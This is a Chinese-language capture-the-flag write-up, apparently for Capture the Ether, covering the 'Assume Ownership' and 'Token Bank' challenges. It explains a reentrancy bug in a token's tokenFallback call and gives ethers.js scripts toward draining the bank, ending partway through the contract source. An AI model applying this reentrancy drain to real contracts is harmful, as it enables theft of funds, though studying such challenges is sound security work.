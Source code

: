 返回Check, 完成✅

---

### Miscellaneous

###### Assume Ownership

这个题, 比较简单, 开始挑战之后, 去到合约地址, 由于已经开源验证, 所以 先执行`AssumeOwmershipChallenge` 这个函数, 再执行 `authenticate` 这个函数.

最后返回Check, 完成✅

---

###### Token Bank

这个题的意思是, 创建了一个Token--SET , 总量是 1,000,000 个 (单位是10**18), 然后又创建了个银行, 银行持有Token的一半, 开始挑战的人 (我) 持有Token的一半, 一开始SET的总量 都在这个银行里面存着, 但是我随时可以把属于我的那一半Token取出来.  这个题的要求是 把银行里面的Token 给他清空掉.

找一找bug, bug发生在这句话 `ITokenReceiver(to).tokenFallback(msg.sender, value, data);`  结合Bank里面的 `tokenFallback`  函数来看, 这句话想要做的是: 如果一个人响银行转帐, 那么这个人的账上就多出相应的余额, **只不过 判断条件错了** 这里的判断条件是 只要目的地是合约, 都会启动这句话, 因此 可以建立一个攻击合约. 攻击合约中写好`tokenFallback` 函数, **利用合约重入**,就可以把银行里的钱都转出来.

```javascript
// 读取mapping 即 balanceOf的一个小测试
const provider = new ethers.providers.JsonRpcProvider(process.env.RPC)
  let hash = await ethers.utils.keccak256(await ethers.utils.defaultAbiCoder.encode(["address","uint"], ["0x869D7e8506D5ABB5e516970dd4FA14AB66a603Fe",1]))
  console.log(hash)
  const slot = await provider.getStorageAt("0x681BE0B67e6917e84BbCFe925c551ca94d06bEb6",hash)
  console.log(slot)
```

首先, 先把属于我们自己的余额那一部分 转出来

```javascript
async function main(){
  const provider = new ethers.providers.JsonRpcProvider(process.env.RPC)
  const wallet = new ethers.Wallet(process.env.PK, provider)
  let iface = new ethers.utils.Interface(["function withdraw(uint256 amount)"])
  const tx = {
    to: "0x681BE0B67e6917e84BbCFe925c551ca94d06bEb6",
    data: iface.encodeFunctionData("withdraw", [ethers.utils.parseEther("500000")]),
  }
  const hash = await wallet.sendTransaction(tx)
  await hash.wait()
  console.log("Send Tx",hash.hash)
}d
```

其次, 我们部署Attack合约

```solidity
pragma solidity ^0.4.21;

interface ITokenReceiver {
    function tokenFallback(address from, uint256 value, bytes data) external;
}
contract SimpleERC223Token {
    // Track how many tokens are owned by each address.
    mapping (address => uint256) public balanceOf;
    string public name = "Simple ERC223 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;
    uint256 public totalSupply = 1000000 * (uint256(10) ** decimals);
    event Transfer(address indexed from, address indexed to, uint256 value);
    function SimpleERC223Token() public {
        balanceOf[msg.sender] = totalSupply;
```